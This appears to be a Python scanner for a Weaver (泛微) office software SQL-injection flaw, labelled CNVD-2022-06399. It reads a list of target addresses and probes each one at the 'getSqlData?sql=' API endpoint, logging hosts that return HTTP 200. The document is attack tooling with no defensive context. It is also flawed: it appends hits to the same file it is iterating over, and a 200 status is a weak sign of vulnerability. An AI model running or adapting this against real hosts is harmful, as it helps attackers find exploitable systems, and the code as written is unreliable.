 # CNVD-2022-06399
import requests

def check_vuln():

    payload = '/Api/portal/elementEcodeAddon/getSqlData?sql='#泛微
   

    for ip in open('2.txt'):
        ip = ip.replace('\n', '')

        url = ip + payload

        try:
            vuln_code_l = requests.get(url).status_code

            print("check->" + ip)
            if vuln_code_l == 200:
                with open(r'2.txt', 'a+') as f:
                    f.write(ip + "\n")
                    f.close()

        except Exception as e:
            pass

if __name__ == '__main__':
    check_vuln()

